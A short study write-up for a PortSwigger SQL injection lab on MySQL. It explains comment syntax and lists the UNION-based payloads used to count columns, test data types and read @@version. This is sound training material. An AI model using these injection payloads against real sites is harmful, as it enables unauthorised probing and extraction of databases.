



# SQL injection attack, querying the database type and version on MySQL and Microsoft
- This is the same as previous lab, but for MySQL DB. 

## Solution: 
- Select title, desc from items where category = input
  
1. As usual we will start the process with determining number of columns: 
   1. But when we try to use the normal method: 
      1. ' order by 1--(no space) -> this will not work
      2. ' order by 1--( space) -> this will work
   2. The reason for that in MySQL it requires space  after -- to be a comment.
   3. Another approach is to use # instead of --, and it will also work 
      1. ' order by 1#(no space) -> this will work
      2. ' order by 1# (no space) -> this will also work
   4. 
2. Now we need to determine datatype:
   1. ' Union select 'a', 'a'-- 
   2. 
3. Now we can use the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to know how to check DB version in MySQL using @@version
   1. ' Union select 'a', @@version -- 
   2. 